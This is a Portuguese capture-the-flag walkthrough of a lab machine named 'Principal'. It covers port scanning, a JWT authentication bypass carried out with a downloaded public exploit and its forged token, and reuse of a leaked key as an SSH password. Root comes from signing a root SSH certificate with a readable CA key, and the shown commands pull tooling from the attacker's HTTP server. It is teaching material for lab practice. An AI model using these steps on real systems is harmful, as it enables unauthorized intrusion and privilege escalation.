# Principal

**Difficulty: Medium**

```
IP: 10.129.244.220
```

### nmap
```bash
nmap -p- -v 10.129.244.220

PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

```bash
nmap -p 22,8080 -sV -v 10.129.244.220

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy Jetty
```

Acessando o serviço web na porta 8080, sou redirecionado para /login


Analisando o site map pelo burp suite, é possível encontrar /api/auth/jwks


Pesquisando se a vulnerabilidades pac4j-jwt 6.0.3 encontro a CVE-2026-29000 que está entre a versão 4.5.9 e 6.3.3. Essa CVE permite Authentication Bypass através de um JWE token forjado.

Vou usar um exploit que encontrei no github
```bash
wget https://raw.githubusercontent.com/yasirr10/CVE-2026-29000/refs/heads/main/exploit.py

python3 exploit.py 
[+] Please provide the following information:
[+] Target Base URL (e.g. http://127.0.0.1:8080): http://10.129.244.220:8080
[+] JWKS Public Key URL (e.g. http://127.0.0.1:8080/api/auth/jwks): http://10.129.244.220:8080/api/auth/jwks

[+] Target   : http://10.129.244.220:8080
[+] JWKS URL : http://10.129.244.220:8080/api/auth/jwks

[+] FORGED AUTHENTICATION BYPASS TOKEN
eyJhbGciOiAiUlNBLU9BRVAtMjU2IiwgImVuYyI6ICJBMTI4R0NNIiwgImtpZCI6ICJlbmMta2V5LTEiLCAiY3R5IjogIkpXVCJ9.Vdr-JAMubCMPYXIrn769lHh0q05vpYO9f1ym5jW1Xjjf0fboSgMzElsHBHnEdvoRDZIit76vYUh0K23QLqCU8mOa0jXkPUnbuGFnPZungAoJu6UspTXdmdQnPqegjzvs04zznYTRdhUhXdZa2ko9_ySYyY4O4zlIyE4ev3AG-mA3UXNJiaZUV3GcZjnSeZtaE7gKyY1QjqHIWLz1KK0iYmxo5uvqGZJfxUkCoKPGNXCQcy4_sHlKWYmlcGiGSl3XLYDlpblwGRuEGDvVVvY16u8Fh5aax8NOugaIZq3yZkNQol_pgRuNtbTGRIci-kwkDffLke7ZR2QCQLt75vI6SA.RyjsB-DyLEwq85W4.CcLweNYHavW8B099xm8iY6ubE44w7t-WzZ63oLQX9GcUuuF-YHw_fH5wEbxxLmurmcH79gJMFeqluqirUhXz-g5fUrmlvuBPWpjh_ouuByGZnXF5qWIyHS1Q7XUR9s1QurFNWuMd4Z1t_GsGbzBO6XgxovDoTyONOo-Q_zyY6tguFVtBNXVOVJPGaC3VS6BqW81BfEax99OJY61C-O3CmsyU.CYKU7EPNrU2DcvKQitLNyg

[+] Token successfully saved to → forged_token.txt
```

Usando o curl para realmente ver se está funcionando.
Funcionou, agora vou encontrar os endpoints necessários. Acessando o debugger encontrei um arquivo chamado app.js com esses endpoints.



Testando /api/users recebi um erro de Unauthorized. O token expirou, vou rodar o exploit.py novamente para pegar um novo JWT.




Com esse novo token, recebi um código 200 OK


Está funcionando, vou entrar adicionar esse token no Local Storage com o id auth_token, como mostra no app.js




Com tudo pronto, vou acessar o diretório dashboard que é possível acessar apenas quando está autenticado.



Funcionou, vamos prosseguir.

Em Settings encontro esse encryptionKey
```
D3pl0y_$$H_Now42!
```

Em Recent Activity é possível visualizar o user svc-deploy emitindo um SSH, então vou testar essa senha com esse user no ssh.

Funcionou, consegui acessar o ambiente interno.
```bash
ssh svc-deploy@10.129.244.220
svc-deploy@10.129.244.220's password: D3pl0y_$$H_Now42!
```

### User flag
```bash
svc-deploy@principal:~$ cat user.txt 
a44cc71ec418d05e2e756b0098b4ec8e
```

Vou rodar o LinEnum para analisar o que pode ser explorado para a escalação de privilégio.
```bash
python3 -m "http.server"
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
svc-deploy@principal:/tmp$ wget http://10.10.17.208:8000/LinEnum.sh
--2026-05-16 06:20:33--  http://10.10.17.208:8000/LinEnum.sh
Connecting to 10.10.17.208:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

svc-deploy@principal:/tmp$ chmod +x LinEnum.sh
```

Rodando o LinEnum

```bash
svc-deploy@principal:/tmp$ ./LinEnum.sh

-rwxrwxrwx 1 root root 1.4M /bin/bash
```

O /bin/bash está world-writable, mas eu não encontrei nenhum cron ou processo root chama /bin/bash diretamente. Então isso provavelmente é um rabbit hole.

Analisando o diretório /opt/principal, é possível identificar um vetor de escalação via SSH Certificate Authority.
```bash
svc-deploy@principal:/opt/principal/ssh$ ls -la
total 20
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 .
drwxr-xr-x 5 root root      4096 Mar 11 04:22 ..
-rw-r----- 1 root deployers  288 Mar  5 21:05 README.txt
-rw-r----- 1 root deployers 3381 Mar  5 21:05 ca
-rw-r--r-- 1 root root       742 Mar  5 21:05 ca.pub
svc-deploy@principal:/opt/principal/ssh$ cat README.txt 
CA keypair for SSH certificate automation.

This CA is trusted by sshd for certificate-based authentication.
Use deploy.sh to issue short-lived certificates for service accounts.

Key details:
  Algorithm: RSA 4096-bit
  Created: 2025-11-15
  Purpose: Automated deployment authentication
```

Vou criar uma chave pessoal com o CA declarando que a chave pertence ao usuário root.
```bash
svc-deploy@principal:/opt/principal/ssh$ ssh-keygen -f /tmp/oi -N ""

svc-deploy@principal:/opt/principal/ssh$ ssh-keygen -s ca -I "test01" -n root -V +30m /tmp/oi.pub 
Signed user key /tmp/oi-cert.pub: id "test01" serial 0 for root valid from 2026-05-16T06:47:00 to 2026-05-16T07:18:57

svc-deploy@principal:/opt/principal/ssh$ ssh -i /tmp/oi -o CertificateFile=/tmp/oi-cert.pub root@localhost
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

root@principal:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Root flag
```bash
root@principal:~# cat root.txt 
958f69e878470f86ae091136382122e5
```

